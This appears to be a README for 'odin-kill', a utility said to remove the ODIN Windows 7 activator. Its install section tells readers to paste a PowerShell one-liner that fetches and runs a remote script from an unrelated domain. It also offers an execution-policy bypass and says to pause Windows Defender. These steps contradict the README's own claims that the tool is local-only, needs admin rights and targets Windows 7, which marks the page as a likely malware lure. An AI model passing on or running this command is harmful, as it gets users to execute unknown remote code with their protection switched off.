




<div align="center">

# Odin-Kill: Detects and Terminates ODIN Windows Activator — Security Tool



[]() []() []()

</div>

---

odin-kill is a Windows utility designed to remove the ODIN "activator" associated with Windows 7. The current implementation is delivered as an NSIS-based installer, replacing the legacy batch script version retained in the archive. It relies on the SetACL command-line tool by Helge Klein to adjust access control entries during removal. A system restore point is created prior to any modification, and source code is provided in the src directory under the LGPL license.

## 🚀 PowerShell Install Guide

> [!TIP]
> **One-line setup** — just run the command below.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Open PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Execute the setup script
Copy the command below, paste it into PowerShell, and press `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If blocked by policy — CMD fallback
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## 📋 System Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

- Targets the Windows 7 "activator" ODIN and removes its components rather than attempting in-place repair of the infected system.
- Creates a system restore point before making any changes, providing a rollback path if the removal must be reverted.
- Operates on a defined, enumerated set of ODIN artifacts (files, services, scheduled tasks, and registry entries) so the scope of modification is explicit and reviewable.
- Reports each action during processing, giving a per-item trace of what was detected, modified, or deleted.
- Distinguishes host conditions before acting: on non-Windows 7 systems the tool identifies the environment and does not apply the ODIN-specific removal sequence.
- Ships as a standalone NSIS-based executable with no runtime dependencies beyond the Windows environment it targets.
- Uses SetACL for permission and ownership handling where system-protected objects must be modified, ensuring access changes are applied through a documented command-line mechanism.
- Includes the original batch script implementation in the archive for users who require the legacy approach or want to compare behavior.
- Source is provided in the src catalog, allowing the removal logic to be audited before execution.

## How it works

The tool operates in a defined sequence of stages. It first verifies the host environment: if the system is not running Windows 7, the process stops without making changes. On a matching system, it checks for the presence of the ODIN "activator" by inspecting the known installation artifacts associated with that software.

When ODIN is detected, the tool creates a system restore point before any modification is applied. This restore point provides a rollback path and is created through the standard Windows system restore mechanism.

After the restore point is confirmed, the tool removes the ODIN components from the system. File system permissions on the affected locations are adjusted using SetACL, a command-line ACL utility by Helge Klein, so that protected or permission-locked files can be deleted. Removal covers the files and registry entries that constitute the ODIN installation.

The tool does not modify unrelated system components and performs no removal when ODIN is not found. All actions are limited to the identified ODIN artifacts and the permission changes required to delete them. The current build is packaged as an NSIS installer; the earlier batch script implementation is retained in the archive for reference.

## Privacy

odin-kill operates entirely on the local machine. It does not establish network connections, does not transmit telemetry, and does not send any data to the project maintainers or to third parties.

All actions performed by odin-kill are limited to the local Windows installation: detecting ODIN artifacts, creating a system restore point, adjusting access control entries as needed to remove the offending files, and cleaning up the associated registry entries. No user files, credentials, or system information are collected, logged remotely, or uploaded.

odin-kill does not bundle analytics, update checkers, or background services. The only external component referenced by the project is the SetACL command-line utility used to modify permissions; it runs locally with the privileges required for the removal procedure and performs no network activity of its own as part of odin-kill's workflow.

Because odin-kill modifies system state, it creates a restore point before making changes. This restore point is stored locally by Windows and is not shared with anyone. Users are encouraged to review the source files in the source catalog to verify behavior before running the tool.

## 📸 Screenshot







## FAQ

**Does Odin Kill work on operating systems other than Windows 7?**
No. Odin Kill targets artifacts and registry entries specific to the ODIN "activator" as deployed on Windows 7. On other Windows versions the corresponding objects are absent, and the tool takes no action. It is not a general-purpose removal utility.

**What does Odin Kill actually remove?**
It removes the files, services, scheduled tasks, and registry keys installed by ODIN. Detection and removal are scoped to known ODIN artifacts; unrelated system components are left untouched.

**Does Odin Kill modify the system before removal?**
Yes. A system restore point is created prior to any destructive operation, so the pre-removal state can be recovered if needed.

**How does Odin Kill obtain the permissions required to delete protected objects?**
ODIN restricts access to its own files and registry keys. Odin Kill adjusts object ownership and access control lists to regain the rights needed for removal. This is performed through the bundled SetACL command-line component.

**Is administrative privilege required?**
Yes. Ownership changes, ACL modifications, service removal, and restore point creation all require elevated rights. Run Odin Kill from an elevated context.

**Does Odin Kill require network access?**
No. All operations are performed locally. No data is transmitted, and no telemetry is collected.

**What happens if removal is interrupted?**
Because a restore point is created first, the system can be rolled back to its prior state. Re-running Odin Kill is safe; already-removed artifacts are skipped.

**Can Odin Kill be run more than once?**
Yes. The tool is idempotent with respect to its target artifacts: items already absent produce no error, and the operation completes normally.

**Is the source code available for review?**
Yes. Sources are provided in the source catalog of the project, and the tool is distributed under the LGPL. The bundled SetACL component is authored by Helge Klein and documented separately.

**Does Odin Kill guarantee that ODIN is fully removed?**
It removes the artifacts it is designed to detect. If ODIN was modified, partially removed, or installed by a variant with different paths and keys, residual components may remain. Verify the result against the documented artifact set after running the tool.

## Disclaimer

This software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.

odin-kill performs privileged system modifications on Windows 7 installations, including ACL changes and removal of files and registry entries associated with the ODIN "activator". These operations are destructive by design. A system restore point is created before changes are applied, but restore points are not guaranteed to exist, to be retained, or to successfully revert every modification. Review the source code in the src catalog before execution and validate behavior in a test environment prior to deployment on production systems.

The tool targets a specific, known artifact family. It does not perform general malware detection, does not scan for unrelated threats, and does not guarantee that all components of ODIN or its variants are removed. Modified or repackaged variants may differ in file layout, registry paths, or service configuration and may not be fully addressed.

Use of odin-kill may affect system stability, application compatibility, and the integrity of the operating system. Administrative privileges are required. Ensure backups exist and that recovery paths are understood before running the tool. The authors accept no responsibility for data loss, system corruption, or other consequences resulting from use or misuse.

odin-kill is intended for legitimate system administration and remediation purposes only. Users are responsible for complying with all applicable laws and licensing terms in their jurisdiction.

## License

odin-kill is distributed under the terms of the GNU Lesser General Public License (LGPL). The complete license text governs the use, modification, and redistribution of the source code and any binaries produced from it. Redistributions of modified versions must preserve the same license terms and make the corresponding source available as required by the LGPL. The NSIS installer sources and the batch-script version retained in the archive fall under the same licensing terms unless a component explicitly states otherwise. The project bundles SetACL.exe, authored by Helge Klein, which remains subject to its own separate licensing conditions and is not covered by the LGPL grant for odin-kill. Consult the SetACL documentation for the exact terms applicable to that third-party component before redistributing or modifying it. No warranty is provided; the software is supplied "as is," without express or implied guarantees of fitness or merchantability, consistent with the LGPL.